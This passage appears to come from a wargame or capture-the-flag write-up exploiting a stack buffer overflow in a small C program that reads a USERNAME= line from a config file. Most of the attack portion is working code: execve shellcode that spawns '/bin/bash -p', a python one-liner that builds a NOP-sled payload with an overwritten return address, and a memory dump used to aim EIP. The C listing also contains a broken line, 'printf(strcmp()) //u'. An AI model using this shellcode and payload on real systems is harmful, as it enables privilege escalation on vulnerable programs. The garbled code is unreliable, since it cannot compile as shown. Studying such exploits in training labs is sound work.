   FILE *file;
  struct Init init; 
  char buff[BUFFER+1];  
   
   
  if((file = fopen(filename, "r")) == NULL)
    {
      perror("[-] fopen ");
      exit(0);
    }
   printf("file add:%x\n", file);
   
  memset(&init, 0, sizeof(struct Init));
   
  init.pid = getpid();
  init.uid = getuid();
   
  while(fgets(buff, BUFFER, file) != NULL)
    {
      printf(strcmp()) //u
      if(strncmp(buff, "USERNAME=", 9) == 0)
	{
	  cpstr(init.username, buff+9);
	}
    }
  fclose(file);
  return init;
}
int main(int argc, char **argv)
{
  struct Init init;
  if(argc != 2)
    {
      printf("Usage : %s <config_file>\n", argv[0]);
      exit(0);
    }
  init = Init(argv[1]);
  printf("[+] Runing the program with username %s, uid %d and pid %d.\n", init.username, init.uid, init.pid);
   
  return 0;
}

```
Firstly, let's find the buffer address:


Let's use thi shellcode (33 bytes long)
```
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
```

```
python -c 'print("USERNAME=" + "\x90" * 103 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xef\xbe\xad\xde" )' > config
```

Let's be sure it doesn't use *\x09*, *\x0d* or *\x0a*. It doesn't !

Let's make **EIP** point somewhere on the NOP SLED :
```
0xbffff650:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff680:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff690:	0x90909090	0x90909090	0x90909090	0x90909090